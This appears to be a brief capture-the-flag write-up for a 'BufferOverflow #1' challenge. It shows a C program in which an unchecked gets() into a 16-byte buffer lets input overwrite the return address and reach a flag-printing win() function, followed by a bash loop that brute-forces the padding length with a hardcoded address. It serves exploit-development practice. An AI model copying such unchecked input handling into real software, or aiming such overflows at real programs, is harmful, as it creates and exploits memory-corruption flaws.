


# BufferOverflow #1




```
#include <stdio.h>

void win()
{
	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}

void vuln()
{
	char buf[16];
	printf("Type something>");
	gets(buf);
	printf("You typed %s!\n", buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();
	return 0;
}
```


<br>


```
for i in {1..50}; do echo $i; python -c "print 'A'*$i + '\xb2\x91\x04\x08'"| ./bufover-1 ;done
```

<br>


